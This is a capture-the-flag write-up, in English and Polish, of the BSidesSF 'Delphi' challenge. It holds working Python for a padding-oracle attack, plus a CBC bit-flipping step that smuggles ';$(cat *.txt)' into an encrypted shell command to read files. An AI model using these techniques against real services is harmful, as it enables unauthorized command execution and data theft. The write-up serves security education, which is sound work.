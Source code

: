 # Delphi (web/crypto)

###ENG
[PL](#pl-version)

The task was in `web` category, but actually there was almost no `web` there, only `crypto`.
We get a web interface in which we can invoke three commands from a select box.

The commands are `netstat`, `ps aux`, and `echo "This is a longer string that I want to use to test multiple-block patterns`.

We notice that all those commands actually point to the same endpoint `execute`, with different parameters, eg `/execute/5d60992b1d3ac1d561f6cb4149d540ed4f6d549c64b9d39babc58c0f29324312`
So we deduce that the command itself probably is somehow encrypted in the hex-string.
Since commands have different lengths we can assume that it is most likely block encryption.
By calculating `gcd` over payload lengths we have we can see that block size can be at most 16 bytes.

If we try to modify the payload we quickly hit `decrypt failure` message.
This seems like a nice setup for oracle padding attack, so we import our oracle padding breaker from crypto-commons are try to run it on the payloads.
We need to prepare oracle function, which will tell us if the decryption failed (presumably because of incorrect padding after decrypt):

```python
session = requests.Session()

def send(ct):
    while True:
        try:
            url = "http://delphi-status-e606c556.ctf.bsidessf.net/execute/" + ct
            result = session.get(url)
            content = result.content
            return content
        except:
            time.sleep(1)


def oracle(data):
    result = send(data)
    if "decrypt" in result:
        return False
    else:
        return True
```

So we simply send the payload and check if there is `decrypt failed` message in the response.

With this in place we can now run:

```python
from crypto_commons.symmetrical.symmetrical import oracle_padding_recovery

def main():
    ct = '21573ed27b7d10267caebd178a68434c66bb31eabdd648cd38f6a34d53656b00'  # ps aux?
    oracle_padding_recovery(ct, oracle, 16, string.printable)


main()
```

And we manage to recover what we expected -> `ps aux` with PKCS padding.
The same goes for `nestat` command, but the most interesting is the last payload because it has more than a single block we can recover.
The last command ends up to be:

`echo "This is a longer string that I want to use to test multiple-block patterns\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f`

Now that we know that we're dealing with CBC encryption, we can use bitflipping to force the payload to decrypt into plaintext of our choosing, at least up to a single block boundary.

The idea behind this attack comes directly from how CBC mode works.
In CBC encryption the plaintext is XORed with previous ciphertext block before encryption.
During decryption the block is first decrypted and then XORed with previous ciphertext block to recover the real plaintext.
This means, however, that if we modify a single byte of ciphertext of previous block, we will change corresponding byte of the decrypted plaintext in the next block!
Keep in mind this will also mess up the decryption of the changed ciphertext block, but this can't be helped.

What we need is to know the ciphertext and corresponding plaintext.
Then we know that `pt[i] = decrypt(ct[k][i]) ^ ct[k-1][i]` and we know all those values.
So now if we XOR `ct[k-1][i]` with `pt[i]` we should always get 0 as result, since `a xor a = 0`.
And now if we XOR this with any value, we will get this value as decryption result!

Fortunately we also have this in crypto-commons so we proceed with:

```python
    ct = '2ca638d01882452ec38895c06cd42505e2b5f680cccd0e4ee9c05acf697bc8fa0f33c4e66d69f81e1869606244dbc1f8f2cce8a05447037fb83addb8a9e6da032c1d08a5598422aab67283a1fcf6ca6297970b2a226124505751ed5d425fd8717d2da1ff5cd6a806c85fdb3ad3cbb175'  # echo something
    pt = (
         '?' * 16) + 'echo "This is a longer string that I want to use to test multiple-block patterns\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f'
    ct = set_cbc_payload_for_block(ct.decode("hex"), pt, ';$(cat *.txt)   ', 5).encode("hex")
    print(ct)
```

This way we modify the decryption results for 5th block of the ciphertext.
4th block will be broken, but since it's just passed to `echo` we don't really care about it much.
So we just modified the ciphertext to decode into `echo ... garbage;$(cat *.txt)   ` which invoked in the shell will give us the flag.
And if we now go to the `http://delphi-status-e606c556.ctf.bsidessf.net/execute/2ca638d01882452ec38895c06cd42505e2b5f680cccd0e4ee9c05acf697bc8fa0f33c4e66d69f81e1869606244dbc1f8f2cce8a05447037fb83addb8a9e6da03721442aa579369a0e8678fa1b0a4843197970b2a226124505751ed5d425fd8717d2da1ff5cd6a806c85fdb3ad3cbb175` url with our modified ciphertext we get as expected:

`This is a longer string that I want to use��|��O� |��q)�;FLAG:a1cf81c5e0872a7e0a4aec2e8e9f74c3   `

###PL version

Zadanie co prawda było w kategorii `web` ale w praktyce nie było tam prawie nic z `web` a jedynie z `crypto`.
Dostajemy webowy interfejs z którego można wykonać trzy komendy używając select boxa.

Komendy to `netstat`, `ps aux` oraz `echo "This is a longer string that I want to use to test multiple-block patterns`.

Zauważamy szybko że wszytkie komendy prowadzą do tego samego endpointu `execue` z innym parametrem, np.
`/execute/5d60992b1d3ac1d561f6cb4149d540ed4f6d549c64b9d39babc58c0f29324312`
Zgadujemy, że komenda do wykonania jest zaszyfrowana w tym hex-stringu.
Skoro komendy mają różne długości to domyślamy się że mamy do czynienia z szyfrem blokowym.
Licząc `gcd` z długości znanych payloadów wynika że blok może mieć najwyżej 16 bajtów długości.

Jeśli ręcznie zmodyfikujemy payload to szybko dostajemy komunikat `decrypt failure`.
To sugeruje setup dla ataku oracle padding, więc importujemy nasz łamacz z crypto-commons i próbujemy uruchomić go dla posiadanych szyfrogramów.
Potrzebujemy do tego przygotować samą wyrocznie, która powie nam czy deszyfrowanie się powiodło czy nie (zakładamy że niepowodzenie wynika z niepopranego paddingu po deszyfrowaniu):

```python
session = requests.Session()

def send(ct):
    while True:
        try:
            url = "http://delphi-status-e606c556.ctf.bsidessf.net/execute/" + ct
            result = session.get(url)
            content = result.content
            return content
        except:
            time.sleep(1)


def oracle(data):
    result = send(data)
    if "decrypt" in result:
        return False
    else:
        return True
```

Więc po prostu wysyłamy przygotowane dane i sprawdzamy czy w odpowiedzie dostaliśmy wiadomość `decrypt failed`.

Możemy teraz uruchomić:

```python
from crypto_commons.symmetrical.symmetrical import oracle_padding_recovery

def main():
    ct = '21573ed27b7d10267caebd178a68434c66bb31eabdd648cd38f6a34d53656b00'  # ps aux?
    oracle_padding_recovery(ct, oracle, 16, string.printable)


main()
```

I udaje nam się odzyskać oczekiwaną komendę -> `ps aux` z paddingiem PKCS.
Tak samo jest dla payloadu z `netstat` ale najciekawszy jest ostatni szyfrogram, bo pozwala odzyskać więcej niż 1 blok.
Ostatnia komenda to:

`echo "This is a longer string that I want to use to test multiple-block patterns\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f`

Skoro wiemy już że mamy do czynienia z szyfrowaniem w trybie CBC, możemy wykorzystać bitflipping żeby zmodyfikować payload tak, aby deszyfrował się do wybranego przez nas plaintextu, przynajmniej do granicy jednego bloku.

Idea stojąca za tym atakiem wynika bezpośrednio z działania trybu CBC.
W tym trybie plaintext jest XORowwany z ciphertextem w poprzednim bloku przed szyfrowaniem.
Podczas deszyfrowania, po odkodowaniu bloku wynik jest XORowany z ciphertextem poprzedniego bloku w celu odzyskania prawdziwego plaintextu.
To oznacza jednak, że możemy zmodyfikować jeden bajt ciphertextu w poprzednim bloku i tym samym zmienić odpowiadający mu bajt odszyfrowanego plaintextu w kolejnym bloku!
Warto pamiętać, że zniszczymy w ten sposób odszyfrowaną wartość bloku gdzie zmieniamy ciphertext, ale tego nie da się ominąć.

Potrzebujemy znać ciphertext oraz odpowiadający mu plaintext.
Wiemy że `pt[i] = decrypt(ct[k][i]) ^ ct[k-1][i]` i znamy też wszystkie te wartości.
Teraz jeśli XORujemy `ct[k-1][i]` z `pt[i]` powinniśmy zawsze po odszyfrowaniu dostać 0 ponieważ `a xor a = 0`.
A teraz jeśli XORujemy to z dowolną inną wartością to uzyskamy tą wartość w wyniku deszyfrowania!

Szczęśliwie mamy to już zaimplementowane w crypto-commons więc wykonujemy:

```python
    ct = '2ca638d01882452ec38895c06cd42505e2b5f680cccd0e4ee9c05acf697bc8fa0f33c4e66d69f81e1869606244dbc1f8f2cce8a05447037fb83addb8a9e6da032c1d08a5598422aab67283a1fcf6ca6297970b2a226124505751ed5d425fd8717d2da1ff5cd6a806c85fdb3ad3cbb175'  # echo something
    pt = (
         '?' * 16) + 'echo "This is a longer string that I want to use to test multiple-block patterns\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f'
    ct = set_cbc_payload_for_block(ct.decode("hex"), pt, ';$(cat *.txt)   ', 5).encode("hex")
    print(ct)
```

W ten sposób zmieniamy wynik deszyfrowania 5 bloku.
4 blok będzie popsuty, ale jest to input dla `echo` więc nie przejmuejmy się tym specjalnie.
Teraz nasz zmieniony ciphertext powinien zdeszyfrować się do czegoś w postaci `echo ... garbage;$(cat *.txt)   ` co wykonane w shellu da nam flagę.
I faktycznie wchodząc pod URL `http://delphi-status-e606c556.ctf.bsidessf.net/execute/2ca638d01882452ec38895c06cd42505e2b5f680cccd0e4ee9c05acf697bc8fa0f33c4e66d69f81e1869606244dbc1f8f2cce8a05447037fb83addb8a9e6da03721442aa579369a0e8678fa1b0a4843197970b2a226124505751ed5d425fd8717d2da1ff5cd6a806c85fdb3ad3cbb175` url ze zmienionym ciphertextem dostajemy:

`This is a longer string that I want to use��|��O� |��q)�;FLAG:a1cf81c5e0872a7e0a4aec2e8e9f74c3   `
